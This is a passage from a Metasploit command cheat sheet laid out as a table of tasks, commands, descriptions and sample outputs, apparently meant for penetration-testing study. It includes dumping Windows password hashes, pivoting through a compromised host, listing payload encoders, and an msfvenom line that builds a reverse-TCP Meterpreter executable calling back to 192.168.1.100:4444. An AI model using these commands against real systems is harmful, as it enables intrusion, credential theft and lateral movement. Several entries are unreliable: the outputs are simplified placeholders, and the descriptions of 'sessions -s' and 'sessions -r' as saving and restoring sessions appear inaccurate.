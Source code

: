 |Set Local Port|`set LPORT 4444`|Specifies the local port that the payload will use to connect back.|`LPORT => 4444`|
|Check Target Vulnerability|`check`|Verifies if the target is vulnerable to the selected exploit.|`[+] Target is vulnerable.`|
|Exploit Target|`run` or `exploit`|Executes the selected exploit against the target.|`[*] Exploit completed, but no session was created.`|
|Show Payloads|`show payloads`|Lists all available payloads for the selected exploit.|`Available Payloads: ...`|
|Show Encoders|`show encoders`|Displays all available encoders that can be used to obfuscate payloads.|`Available Encoders: ...`|
|Show NOPs|`show nops`|Lists available NOP generators for padding payloads.|`Available NOPs: ...`|
|Show Post-Exploitation Modules|`show post`|Lists post-exploitation modules that can be used after gaining access to a target.|`Available Post Modules: ...`|
|Show Auxiliary Modules|`show auxiliary`|Lists auxiliary modules for scanning, fuzzing, or other non-exploit tasks.|`Available Auxiliary Modules: ...`|
|Set a Global Option|`setg LHOST 192.168.1.100`|Sets a global option that applies to all modules.|`LHOST => 192.168.1.100`|
|Unset a Global Option|`unsetg LHOST`|Unsets a global option, removing its value for all modules.|`LHOST unset.`|
|View Active Sessions|`sessions -l`|Lists all active sessions established with targets.|`Active sessions: 1`|
|Interact with a Session|`sessions -i 1`|Interacts with a specific session by session ID.|`meterpreter >`|
|Background a Session|`background`|Moves the current session to the background.|`[*] Backgrounding session 1...`|
|Kill a Session|`sessions -k 1`|Terminates a specific session by session ID.|`Session 1 terminated.`|
|Save Session|`sessions -s`|Saves all active sessions to disk for later use.|`Sessions saved.`|
|Load Saved Sessions|`sessions -r session_file`|Restores saved sessions from a file.|`Sessions restored.`|
|Load a Meterpreter Script|`run post/windows/gather/hashdump`|Executes a Meterpreter script for post-exploitation tasks.|`Hashes dumped.`|
|Add a Route|`route add 192.168.2.0/24 1`|Routes traffic through a compromised host.|`Route added.`|
|Display Routes|`route`|Lists all routes currently active in the session.|`Active routes: ...`|
|Pivot through a Session|`setg SESSION 1`|Sets a specific session ID for pivoting traffic.|`SESSION => 1`|
|Generate a Payload|`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > shell.exe`|Generates a standalone payload in a specified format.|`Payload generated.`|
|Exit Metasploit|`exit`|Exits the Metasploit console and terminates all sessions.|`Goodbye!`|